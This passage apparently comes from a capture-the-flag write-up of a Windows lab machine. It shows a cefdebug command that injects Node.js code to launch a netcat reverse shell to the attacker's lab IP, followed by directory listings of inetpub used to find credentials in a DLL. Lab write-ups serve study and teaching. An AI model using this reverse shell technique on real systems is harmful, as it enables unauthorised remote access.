 This exploit was weird, as it took me ages to get a shell, but I eventually did.

{% code overflow="wrap" %}
```
.\cefdebug --code "process.mainModule.require('child_process').exec('C:/Windows/Tasks/nc.exe 10.10.14.42 443 -e cmd')" --url ws://127.0.0.1:2306/58c5d2a4-d072-479b-a0ad-6762d38e5a36
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (131).png" alt=""><figcaption></figcaption></figure>

### Inetpub DLL --> Credentials

This user has access to the `inetpub` directory:

```
Directory of C:\inetpub\wwwroot

01/07/2020  10:28 PM    <DIR>          .
01/07/2020  10:28 PM    <DIR>          ..
01/07/2020  10:28 PM    <DIR>          aspnet_client
01/07/2020  10:28 PM    <DIR>          assets
01/07/2020  10:28 PM    <DIR>          bin
01/07/2020  10:28 PM    <DIR>          Content
01/07/2020  11:50 PM    <DIR>          css
01/06/2020  05:49 PM             3,614 favicon.ico
01/07/2020  10:28 PM    <DIR>          fonts
01/06/2020  11:36 PM                98 Global.asax
01/07/2020  10:28 PM    <DIR>          images
01/07/2020  10:28 PM    <DIR>          img
01/07/2020  11:52 PM             1,098 index.html
01/07/2020  11:50 PM    <DIR>          js
01/07/2020  10:28 PM    <DIR>          Scripts
01/07/2020  10:28 PM    <DIR>          Views
01/09/2020  05:13 AM             3,640 Web.config
```

Within the `bin` file, there were some DLLs:

```
 Directory of C:\inetpub\wwwroot\bin

01/07/2020  10:28 PM    <DIR>          .
01/07/2020  10:28 PM    <DIR>          ..
02/21/2013  08:13 PM           102,912 Antlr3.Runtime.dll
02/21/2013  08:13 PM           431,616 Antlr3.Runtime.pdb
05/24/2018  01:08 AM            40,080 Microsoft.CodeDom.Providers.DotNetCompilerPlatform.dll
07/24/2012  11:18 PM            45,416 Microsoft.Web.Infrastructure.dll
01/09/2020  05:13 AM            13,824 MultimasterAPI.dll
01/09/2020  05:13 AM            28,160 MultimasterAPI.pdb
02/17/2018  09:14 PM           664,576 Newtonsoft.Json.dll
01/07/2020  10:28 PM    <DIR>          roslyn
11/28/2018  12:30 AM           178,808 System.Net.Http.Formatting.dll
11/28/2018  12:28 AM            27,768 System.Web.Cors.dll
01/27/2015  03:34 PM           139,976 System.Web.Helpers.dll
11/28/2018  12:31 AM            39,352 System.Web.Http.Cors.dll
```